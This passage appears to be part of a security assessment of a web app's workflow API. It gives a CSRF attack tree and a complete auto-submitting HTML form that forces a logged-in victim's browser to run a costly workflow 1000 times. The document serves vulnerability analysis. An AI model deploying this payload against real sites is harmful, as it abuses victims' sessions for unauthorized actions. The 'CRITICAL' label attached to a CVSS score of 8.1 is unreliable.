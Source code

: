 ### Attack Tree

```
┌─────────────────────────────────────────────────────────────┐
│    ROOT: Forge Authenticated State-Changing Request         │
└────────────────────┬────────────────────────────────────────┘
                     │
        ┌────────────┴────────────┐
        │                          │
        ↓                          ↓
┌──────────────────┐       ┌──────────────────┐
│  Attack Path 1:  │       │  Attack Path 2:  │
│  HTML Form       │       │  JavaScript      │
│  Auto-Submit     │       │  Fetch API       │
└────────┬─────────┘       └────────┬─────────┘
         │                           │
    ┌────┴────┐                 ┌────┴────┐
    │         │                 │         │
    ↓         ↓                 ↓         ↓
┌────────┐ ┌────────┐      ┌────────┐ ┌────────┐
│Phishing│ │Malicious│      │XSS     │ │Browser │
│Email   │ │Website  │      │Payload │ │Extension│
└───┬────┘ └───┬────┘      └───┬────┘ └───┬────┘
    │          │                │          │
    └──────────┴────────────────┴──────────┘
                     │
                     ↓
┌─────────────────────────────────────────────────────────────┐
│  Exploit: Browser auto-sends authentication cookie           │
│  Impact: Unauthorized workflow execution, deletion           │
│  CVSS: 8.1 (CRITICAL)                                        │
└─────────────────────────────────────────────────────────────┘
```

### Detailed Attack Scenarios

#### Scenario 1: Malicious Website Auto-Submit Form

**Attack Vector:**
```html
<!-- Attacker website: evil.com -->
<!DOCTYPE html>
<html>
<body>
  <h1>Free Prize!</h1>
  <form id="csrf-attack" action="https://agentstudio.com/api/workflows/execute" method="POST">
    <input type="hidden" name="workflowId" value="expensive-ai-workflow">
    <input type="hidden" name="iterations" value="1000">
  </form>
  <script>
    document.getElementById('csrf-attack').submit();
  </script>
</body>
</html>
```
